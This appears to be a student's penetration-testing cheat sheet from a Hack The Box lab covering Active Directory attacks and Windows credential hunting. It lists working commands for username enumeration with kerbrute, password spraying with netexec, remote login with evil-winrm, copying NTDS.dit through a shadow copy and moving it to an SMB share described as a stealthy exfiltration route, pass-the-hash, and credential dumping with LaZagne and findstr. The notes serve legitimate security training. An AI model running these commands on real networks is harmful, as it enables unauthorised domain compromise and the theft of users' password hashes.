 <br>

### Active Directory 
```
# automated list generator
    1. https://github.com/urbanadventurer/username-anarchy
    2. ~/tools/username-anarchy
    3. sudo ./username-anarchy -i ~/htb/cert/temp/usernames.txt > ~/htb/cert/temp/usernamesmixed.txt

# Enumerate Valid Usernames 
    1. kerbrute
    2. ~/tools/kerbrute 
    3. ./kerbrute_linux_amd64 userenum --dc [ip] --domain [domain] username.txt

# Dictionary attacks using netexec 
    1. netexec smb ip -u username -p /password/list


# After creds are found, try and retrieve the NTDS.dit file. Stores all domain usernames, and password hashes. Use secretsdump and netexec to dump and crack creds. 

# Connect to remote DC using the creds you jsut found and evilwinrm 
    1. evil-winrm -i 10.129.201.57 -u username -p password
    2. Check priv with the following command. We are looking for an acc with admin rights 
        2a. net localgroup 
    3. Check domain privileges 
        3a. net user bwilliamson
    4. Since we have admin rights we can use vssadmin to create a VSS of the Drive 
        4a. vssadmin CREATE SHADOW /For=Drive Letter 
    5. Copy the file to another directory 
        5a. cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
    6. Refer back to the "Attacking SAM, SYSTEM, & SECURITY" sections for creating an SMB share. It's a stealthy way to move files off of the DC 
    7. Transfer the files 
        7a. cmd.exe /c move C:\NTDS\NTDS.dit \\ip\CompData
    8. Follow "Attacking SAM, SYSTEM, & SECURITY"
    9. You can still use hashes in a pass-the-hash-attack. 
    9a. evil-winrm -i ip -u username -H hash
```
<br> 

### Credenital Hunting in Windows 
```
# Just search in the windows search bar 

# LaZagne 
    1. xfreerdp or rdp over to machine
    2. start LaZagne.exe all

# findstr 
    1. "findstr /SIM /C:"password" extentiosn of files with asterisk 
    2. Searched for password in the root dir under files of this type

# Suggestions 
    1. Passwords in Group Policy in the SYSVOL share
    2. Passwords in scripts in the SYSVOL share
    3. Password in scripts on IT shares
    4. Passwords in web.config files on dev machines and IT shares
    5. Password in unattend.xml
    6. Passwords in the AD user or computer description fields
    7. KeePass databases (if we are able to guess or crack the master password)
    8. Found on user systems and shares
```